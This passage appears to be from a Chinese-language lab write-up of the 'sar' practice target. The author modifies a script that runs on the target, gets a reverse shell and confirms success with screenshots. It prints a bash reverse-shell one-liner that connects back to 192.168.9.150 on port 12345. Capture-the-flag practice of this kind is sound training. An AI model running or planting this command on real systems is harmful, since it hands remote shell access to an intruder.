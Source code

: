 ‍

接下来直接篡改，桀桀：`bash -c 'bash -i >& /dev/tcp/192.168.9.150/12345 0>&1'`

（我中途输错了，然后这靶机vi只能盲操作。所以我操作修改的时候不太精准，导致我倒数第二行即touch所在行变异。但是不影响，不要在意qaq）

![](/images/sar--打靶笔记/1752587180751.png)

然后在本机上开启监听，静静等待——

![](/images/sar--打靶笔记/1752587180872.png)

成功！

（可以通过`/tmp/gateway`创建与否来判断`./finally.sh`是否执行）

‍![](/images/sar--打靶笔记/1752587180965.png)

  

![](/images/sar--打靶笔记/1752587181080.png)

拿下！

  

  

